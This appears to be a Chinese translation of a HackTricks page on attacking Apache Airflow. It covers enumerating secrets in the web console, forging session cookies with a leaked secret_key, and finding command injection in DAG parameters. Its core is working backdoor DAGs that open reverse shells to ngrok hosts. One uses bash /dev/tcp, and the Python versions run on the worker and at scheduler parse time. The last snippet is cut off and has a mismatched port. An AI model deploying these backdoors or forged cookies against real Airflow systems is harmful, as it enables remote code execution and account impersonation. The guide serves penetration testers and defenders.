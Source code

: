 # Apache Airflow Security

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

### 基本信息

[**Apache Airflow**](https://airflow.apache.org) 作为一个 **编排和调度数据管道或工作流** 的平台。在数据管道的上下文中，“编排”一词表示安排、协调和管理来自各种来源的复杂数据工作流的过程。这些编排的数据管道的主要目的是提供经过处理和可消费的数据集。这些数据集被广泛应用于众多应用程序，包括但不限于商业智能工具、数据科学和机器学习模型，所有这些都是大数据应用程序正常运行的基础。

基本上，Apache Airflow 将允许您 **在某些事情发生时调度代码的执行**（事件，cron）。

### 本地实验室

#### Docker-Compose

您可以使用来自 [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) 的 **docker-compose 配置文件** 启动一个完整的 Apache Airflow Docker 环境。（如果您在 MacOS 上，请确保为 Docker 虚拟机分配至少 6GB 的内存）。

#### Minikube

运行 Apache Airflow 的一种简单方法是 **使用 Minikube 运行它**：
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow 配置

Airflow 可能在其配置中存储 **敏感信息**，或者您可能会发现存在弱配置：

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

在开始攻击 Airflow 之前，您应该了解 **权限是如何工作的**：

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### 攻击

#### Web 控制台枚举

如果您有 **访问 web 控制台** 的权限，您可能能够访问以下一些或全部信息：

* **变量**（自定义敏感信息可能存储在这里）
* **连接**（自定义敏感信息可能存储在这里）
* 在 `http://<airflow>/connection/list/` 中访问它们
* [**配置**](./#airflow-configuration)（敏感信息如 **`secret_key`** 和密码可能存储在这里）
* 列出 **用户和角色**
* **每个 DAG 的代码**（可能包含有趣的信息）

#### 检索变量值

变量可以存储在 Airflow 中，以便 **DAG** 可以 **访问** 其值。这类似于其他平台的秘密。如果您有 **足够的权限**，可以在 GUI 中访问它们，地址为 `http://<airflow>/variable/list/`。\
Airflow 默认会在 GUI 中显示变量的值，但根据 [**这个**](https://marclamberti.com/blog/variables-with-apache-airflow/) 的说法，可以设置一个 **变量列表**，其 **值** 将在 **GUI** 中显示为 **星号**。

![](<../../.gitbook/assets/image (164).png>)

然而，这些 **值** 仍然可以通过 **CLI**（您需要有数据库访问权限）、**任意 DAG** 执行、**API** 访问变量端点（需要激活 API），甚至 **GUI 本身** 来 **检索**！\
要从 GUI 访问这些值，只需 **选择您想访问的变量**，然后 **点击操作 -> 导出**。\
另一种方法是对 **隐藏值** 进行 **暴力破解**，使用 **搜索过滤** 直到您获得它：

![](<../../.gitbook/assets/image (152).png>)

#### 权限提升

如果 **`expose_config`** 配置设置为 **True**，则从 **用户角色** 及 **以上** 可以 **读取** **web 中的配置**。在此配置中，**`secret_key`** 出现，这意味着任何拥有此有效密钥的用户都可以 **创建自己的签名 cookie 来冒充任何其他用户账户**。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG 后门 (Airflow worker 中的 RCE)

如果您对 **DAG 保存的位置** 有 **写入权限**，您可以 **创建一个** 发送 **反向 shell** 的 **DAG**。\
请注意，这个反向 shell 将在 **airflow worker 容器** 内执行：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG 后门 (Airflow 调度器中的 RCE)

如果您将某些内容设置为**在代码的根目录中执行**，在撰写本文时，它将在将其放入 DAG 文件夹后几秒钟内**由调度器执行**。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG 创建

如果你成功地**攻陷了 DAG 集群中的一台机器**，你可以在 `dags/` 文件夹中创建新的 **DAG 脚本**，它们将会在 DAG 集群中的其余机器上**复制**。

#### DAG 代码注入

当你从 GUI 执行一个 DAG 时，你可以**传递参数**给它。\
因此，如果 DAG 编写不当，它可能会**容易受到命令注入的攻击。**\
这就是在这个 CVE 中发生的情况: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

你需要知道的**开始寻找 DAG 中命令注入的方法**是**参数**通过代码**`dag_run.conf.get("param_name")`**被**访问**。

此外，**变量**也可能出现相同的漏洞（请注意，拥有足够权限的情况下，你可以**控制 GUI 中变量的值**）。变量通过以下方式**访问**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
如果它们被用在例如 bash 命令中，你可能会执行命令注入。

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
